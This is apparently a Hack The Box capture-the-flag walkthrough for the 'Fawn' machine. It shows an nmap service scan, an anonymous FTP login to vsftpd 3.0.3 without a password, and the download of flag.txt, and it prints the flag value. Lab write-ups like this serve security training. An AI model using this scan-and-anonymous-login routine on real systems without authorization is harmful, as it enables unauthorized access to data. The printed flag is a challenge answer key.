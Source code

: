 # Hack The Box Machines: Fawn
Once the machine is spawn, let's scan de services and their versions running in the target machine with **nmap**.

```sh
❯ target=10.129.245.135
❯ nmap -sV $target
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-13 16:08 CEST
Nmap scan report for 10.129.245.135
Host is up (0.070s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.69 seconds
```

As seen in the scan, there is an open port in the **21** with a **ftp** service running on it, moreover it is the **vsftpd 3.0.3** version.

Now let's try connect to the target machine with the **ftp** service that is preinstalled in linux by default.

```sh
❯ ftp $target
Connected to 10.129.245.135.
220 (vsFTPd 3.0.3)
Name (10.129.245.135:gemonpar): 
```

As seen we send a request of connection to the target machine and this send us back an authentication request.

If we search for vulnerabilities in ftp services, there is a misconfiguration that allows an **anonymous** person to login with no password need.

```sh
❯ ftp $target
Connected to 10.129.245.135.
220 (vsFTPd 3.0.3)
Name (10.129.245.135:gemonpar): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

As seen, the login is successful, so now lets see which commands are allowed the **help** command.

```sh
ftp> help
Commands may be abbreviated.  Commands are:

!		dir		mdelete		qc		site
$		disconnect	mdir		sendport	size
account		exit		mget		put		status
append		form		mkdir		pwd		struct
ascii		get		mls		quit		system
bell		glob		mode		quote		sunique
binary		hash		modtime		recv		tenex
bye		help		mput		reget		tick
case		idle		newer		rstatus		trace
cd		image		nmap		rhelp		type
cdup		ipany		nlist		rename		user
chmod		ipv4		ntrans		reset		umask
close		ipv6		open		restart		verbose
cr		lcd		prompt		rmdir		?
delete		ls		passive		runique
debug		macdef		proxy		send
```
So if we make an **ls** we see a **flag.txt** let's download this file and show his content.

```sh
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04 03:25 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.00 secs (343.4066 kB/s)
ftp> exit
221 Goodbye.
❯ cat flag.txt
       │ File: flag.txt
   1   │ 035db21c881520061c53e0536e44f815
```

Finally there is the flag **035db21c881520061c53e0536e44f815**.
